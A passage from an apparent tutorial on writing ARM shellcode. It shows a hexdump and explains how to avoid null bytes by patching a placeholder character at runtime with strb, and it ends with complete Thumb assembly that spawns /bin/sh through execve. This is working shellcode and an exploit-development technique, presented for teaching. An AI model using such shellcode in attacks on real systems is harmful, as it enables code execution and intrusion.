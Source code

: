 And the program runs again.

### Null Terminating a String

Looking at the shellcode, we have eliminated all of the **0x00**’s except for the final terminating NULL on our “/bin/sh” string.

```
$ objcopy -O binary shell.o shell.bin
$ hexdump -C shell.bin
00000000  01 10 8f e2 11 ff 2f e1  02 a0 49 40 52 40 0b 27  |....../...I@R@.'|
00000010  01 df c0 46 2f 62 69 6e  2f 73 68 00              |...F/bin/sh.|
0000001c


```

I have been using the gnu assembler **.asciz** directive to declare strings. This automatically appends a null byte to the string data.

There is another directive, **.ascii** which does not append the NULL.

We need the NULL though because the **execve** syscall requires a properly terminated string.

We can put a placeholder for the NULL, by declaring the string like this

And then replace the ‘A’ with **0x00** at runtime, but without adding a **0x00** to the code.

There is a variant of the store instruction **str** that will let us save one-byte to memory, **strb**.

If we take advantage of the fact that we have already set register **r1** to zero and that **r0** holds the start address of the string, we can add this instruction to copy over the ‘A’ with a **0x00** from **r1**.

Since we added an instruction, we can now remove the **nop**.

The code now looks like this

```
.text
.global _start

_start:
	add r1, pc, #1
	bx r1

.code 16
	adr r0, _string 
	eor r1, r1, r1
	eor r2, r2, r2
	strb r1, [r0, #7]
	mov r7, #11
	svc #1

_string:
.ascii  "/bin/shA"


```
